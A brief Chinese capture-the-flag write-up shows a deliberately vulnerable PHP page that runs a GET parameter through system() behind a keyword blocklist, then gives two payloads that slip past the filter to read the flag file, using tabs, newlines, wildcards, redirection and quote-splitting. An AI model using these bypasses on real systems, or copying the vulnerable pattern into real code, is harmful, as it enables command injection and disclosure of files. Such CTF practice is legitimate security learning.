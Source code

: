 # 知识点
# 思路
源码
```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
payload
```php
方法一 ?c=tac%09fla?.php%0a
方法二 ?c=nl<fla''g.php||
```
![image.png](./images/20231017_2350519681.png)

